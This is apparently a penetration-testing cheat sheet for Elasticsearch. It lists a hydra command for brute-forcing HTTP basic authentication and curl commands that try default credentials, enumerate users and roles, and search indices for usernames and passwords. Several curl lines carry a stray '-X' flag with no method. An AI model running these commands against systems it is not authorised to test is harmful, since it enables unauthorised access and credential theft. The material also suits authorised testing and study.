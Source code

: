 ```yaml
---
title: Elasticsearch Pentesting
description: It is a search engine based on the Lucene library. Default ports are 9200, 9300.
tags:
    - Web
refs:
date: 2023-02-05
draft: false
---
```


## Enumeration

### Brute Force Credentials

Crack the "Authorization" header in the web page.

```sh
hydra -L usernames.txt -P passwords.txt <target-ip> -s 9200 http-get /
```

<br />

## Access over HTTP

Elasticsearch uses HTTP.

```sh
# Basic
curl -X http://10.0.0.1:9200/

# Default credentials
curl -X http://admin:elasticadmin@10.0.0.1:9200/
curl -X http://elastic:changeme@10.0.0.1:9200/


# User Enumeration
curl -X http://10.0.0.1:9200/_security/role
curl -X http://10.0.0.1:9200/_security/user

curl -X http://10.0.0.1:9200/_xpack/security/user

# Search
curl -X http://10.0.0.1:9200/_search?q=username
curl -X http://10.0.0.1:9200/_search?q=password

# Others
curl -X http://10.0.0.1:9200/_cat/
curl -X http://10.0.0.1:9200/_cluster/
curl -X http://10.0.0.1:9200/_nodes/
curl -X http://10.0.0.1:9200/_remote/
curl -X http://10.0.0.1:9200/_security/
```
